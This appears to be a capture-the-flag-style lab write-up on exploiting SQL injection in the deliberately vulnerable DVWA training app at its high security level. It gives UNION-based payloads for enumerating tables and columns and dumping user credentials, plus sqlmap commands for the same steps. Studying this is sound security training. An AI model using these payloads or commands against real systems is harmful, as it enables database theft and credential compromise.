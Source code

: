 # SQL Injection (High Level)

## Vulnerability Overview

At the high-security level, DVWA introduces prepared statements with MySQLi, which help protect the SQL structure. However, the session variable `$_SESSION['id']` is still directly used in the query.

### 1. SQL Injection Vulnerability
The `$id` value from the session is inserted directly into the query string without any validation or sanitization.  
This allows an attacker to inject malicious SQL code by manipulating the session value.

### 2. Unsafe Error Message
Although detailed server information is not exposed, the application still stops execution and displays an error message.  
This behavior can help attackers infer vulnerabilities and craft further attacks.

---

# Exploitation

## 1. Authentication Bypass

**Payload Used:**
```sql
1' or '1' = '1
```

This always-true condition bypasses authentication filters and retrieves all database rows.

---

## 2. Extracting Database User and Name

**Payload Used:**
```sql
1' union select database(), user() #
```

This forces the database to return the current database name and user.  
Result shows:
- Database: `dvwa`
- User: `dvwa_user@localhost`

---

## 3. Enumerating Tables

**Payload Used:**
```sql
1' union select 1, table_name from information_schema.tables #
```

This command lists all the tables present in the database.

---

## 4. List Tables in DVWA Only

**Payload Used:**
```sql
1' union select 1, table_name from information_schema.tables where table_schema = 'dvwa' #
```

This payload filters and lists only the tables under the `dvwa` database schema.

---

## 5. Finding Columns Inside the Users Table

**Payload Used:**
```sql
1' union select 1, column_name from information_schema.columns where table_name = 'users' #
```

This command enumerates all columns inside the `users` table.

---

## 6. Dumping User Credentials

**Payload Used:**
```sql
' UNION SELECT user, password FROM users #
```

This successfully retrieves usernames and hashed passwords from the `users` table.

Password hashes can then be cracked using external tools like CrackStation.

---

# SQLMap Automation

SQLMap was used to automate the SQL Injection process.

## 1. Check Vulnerability

**Command:**
```bash
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=high; PHPSESSID=xyz123" --batch
```

**Output:**
- SQLMap detected multiple injection techniques: Boolean-based, Error-based, Time-based, and UNION-based.
- Database identified: MySQL (MariaDB) on Apache server (Debian Linux).

---

## 2. Display All Tables in the Database

**Command:**
```bash
sqlmap --tables
```

**Output:**
- Lists all tables inside the `dvwa` database.

---

## 3. Display All Columns of the Users Table

**Command:**
```bash
sqlmap --columns -T users
```

**Output:**
- Displays all column names in the `users` table.

---

## 4. Dump User Credentials

**Command:**
```bash
sqlmap --dump -T users
```

**Output:**
- Successfully dumps all usernames and hashed passwords from the `users` table.

These credentials can then be used for further login attempts or brute-force cracking.

---

# ✅ Done!

This concludes the SQL Injection exploitation on DVWA at high security level.
